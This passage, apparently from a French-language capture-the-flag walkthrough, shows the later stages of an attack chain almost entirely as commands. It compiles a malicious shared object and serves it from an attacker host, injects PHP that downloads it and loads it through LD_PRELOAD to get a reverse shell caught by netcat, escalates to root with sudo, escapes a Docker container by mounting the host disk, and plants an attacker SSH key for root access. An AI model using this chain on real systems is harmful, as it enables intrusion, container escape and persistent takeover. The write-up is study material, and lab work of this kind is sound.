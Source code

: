 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
python3 -m http.server 80
```

### 5.2 Téléchargement + exécution côté cible

```
code> $ch=curl_init('http://10.21.208.96/shell.so');curl_setopt($ch,19913,1);file_put_contents('/tmp/shell.so',curl_exec($ch));curl_close($ch);
code> putenv('LD_PRELOAD=/tmp/shell.so');mail('a','a','a','a');
```

Sur l’attaquant :

```bash
nc -lvnp 443
```

Shell obtenu :

```bash
www-data@bb28d5969dd5:/var/www/html$ id
```

---

## 7. Phase 6 : élévation root et évasion Docker

### 6.1 Prise de contrôle root dans le conteneur

```bash
www-data$ sudo -l
www-data$ sudo su -
root@bb28d5969dd5:~# id
```

### 6.2 Analyse des capacités & montage du FS hôte

```bash
grep CapEff /proc/self/status
mount /dev/nvme0n1p1 /mnt
cat /mnt/etc/hostname
```

### 6.3 Ajout de la clé SSH de l’attaquant

```bash
ssh-keygen -f id_ed25519 -t ed25519 -N ''
cat id_ed25519.pub >> /mnt/root/.ssh/authorized_keys
```

Connexion root :

```bash
ssh -i id_ed25519 root@$TARGET
cat /root/user.txt
```

---
